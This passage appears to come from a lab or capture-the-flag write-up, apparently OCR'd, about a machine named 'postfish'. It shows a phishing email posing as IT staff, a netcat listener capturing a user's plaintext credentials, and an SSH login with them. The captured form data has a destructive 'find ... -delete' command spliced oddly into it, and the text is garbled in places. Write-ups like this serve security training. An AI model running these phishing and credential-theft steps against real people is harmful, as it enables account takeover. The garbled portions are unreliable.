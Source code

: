 ```bash
Hello brian, click the link:
http://192.168.45.198/
.
250 2.0.0 Ok: queued as 00530458F8
```

```bash
┌──(root💀kali)-[~]
└─# nc -lvp 80                                                                                                           1 ⨯
listening on [any] 80 ...
connect to [192.168.45.198] from postfish.off [192.168.250.137] 44760
POST / HTTP/1.1
Host: 192.168.45.198
User-Agent: curl/7.68.0
Accept: */*
Content-Length: 207
Content-Type: application/x-www-form-urlencoded

first_name%3DBrian%26last_name%3DMoore%26email%3Dbrian.moore%postfish.off%26username%3Dbrian.moore%26password%3DEternaLSunshinE%26confifind /var/mail/ -type f ! -name sales -delete_password%3DEternaLSunshinE
```

I sent email to Brian, while disguised as IT team with the malicious URL.
And I got the response from him.

# Decoded URL

```bash
first_name=Brian&last_name=Moore&email=brian.moore%postfish.off&username=brian.moore&password=EternaLSunshinE&confifind/var/mail/-typef!-namesales-delete_password=EternaLSunshinE
```

I got his credentials.

# Getting Shell

```bash
┌──(root💀kali)-[~/postfish]
└─# ssh brian.moore@postfish.off                                                                                       130 ⨯
brian.moore@postfish.off's password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 16 Oct 2023 12:26:48 AM UTC

  System load:  0.0               Processes:               212
  Usage of /:   52.5% of 9.78GB   Users logged in:         0
  Memory usage: 25%               IPv4 address for ens160: 192.168.250.137
  Swap usage:   0%

0 updates can be installed immediately.
0 of these updates are security updates.

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
```